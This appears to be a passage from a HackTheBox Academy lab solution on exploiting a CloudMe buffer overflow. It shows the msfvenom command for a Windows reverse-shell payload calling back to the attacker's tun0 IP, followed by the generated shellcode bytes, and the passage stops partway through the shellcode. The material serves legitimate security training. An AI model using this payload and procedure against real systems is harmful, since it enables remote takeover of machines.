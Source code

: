 ![[HTB Solutions/Others/z. images/56f6a68f7b3533864b1ed5b5f9c0d810_MD5.jpg]]

The program crashed after sending it `1500` bytes of data.

Answer: `1500`

# Remote Exploitation

## Question 1

### "The above server has 'CloudMe' listening on port 8889. Try to use the exploit you built to get a reverse shell and read the flag on the user's Desktop."

Since students have been given the [exploit](https://academy.hackthebox.com/storage/modules/89/scripts/win32bof_exploit_remote_py.txt) ready to be used, they only require the `exploit()` function from it, with other few additional steps.

First, students need to find the IP address of the `tun0` interface for Pwnbox/`PMVPN`:

Code: shell

```shell
ip a | grep tun0
```

```
┌─[us-academy-1]─[10.10.14.215]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ ip a | grep tun0

4: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 500
    inet 10.10.14.215/23 scope global tun0
```

Armed with the `tun0` IP address, students now need to use `msfvenom` to generate shellcode that will execute a reverse-shell call back to their Pwnbox/`PMVPN`:

Code: shell

```shell
msfvenom -p 'windows/shell_reverse_tcp' LHOST=PWNIP LPORT=PWNPO -f python
```

```
┌─[us-academy-1]─[10.10.14.215]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ msfvenom -p 'windows/shell_reverse_tcp' LHOST=10.10.14.215 LPORT=9001 -f python

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of python file: 1582 bytes
buf =  b""
buf += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
buf += b"\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7"
buf += b"\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf"
buf += b"\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c"
buf += b"\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01"
buf += b"\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31"
buf += b"\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d"
buf += b"\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66"
buf += b"\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0"
buf += b"\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f"
buf += b"\x5f\x5a\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68"
buf += b"\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8"
buf += b"\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00"
```